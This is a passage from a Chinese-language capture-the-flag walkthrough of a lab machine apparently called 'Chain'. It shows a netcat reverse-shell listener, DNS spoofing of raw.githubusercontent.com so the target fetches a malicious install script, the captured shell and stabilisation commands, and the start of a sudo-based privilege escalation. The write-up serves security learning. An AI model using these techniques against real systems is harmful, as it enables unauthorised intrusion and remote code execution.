 ## 2.4 获取初始Shell

### 2.4.1 监听反向连接

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888               
listening on [any] 8888 ...
```

### 2.4.2 成功获取连接

观察到目标主机访问了我们的恶意服务：

```bash
# HTTPS服务器日志
FILE:ll104567/d2VsY29tZTpqdW1v/refs/heads/main/install.sh

# DNS劫持日志
[19:46:03] [sys.log] [inf] dns.spoof sending spoofed DNS reply for raw.githubusercontent.com (->192.168.205.128) to 192.168.205.129
```

成功获取反向Shell：

```bash
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.129] 37412
id
uid=1001(fish) gid=1001(fish) groups=1001(fish)
```

### 2.4.3 稳定Shell

```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 36 columns 178
```

# 三、权限提升

## 3.1 权限分析

检查当前用户的sudo权限：

```bash
fish@Chain:/var/www/html/d2VsY29tZTpqdW1v$ sudo -l
Matching Defaults entries for fish on Chain:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fish may run the following commands on Chain:
    (ALL) NOPASSWD: /usr/bin/apt update
    (ALL) NOPASSWD: /usr/bin/apt install dsz
    (ALL) NOPASSWD: /usr/bin/apt remove dsz
```
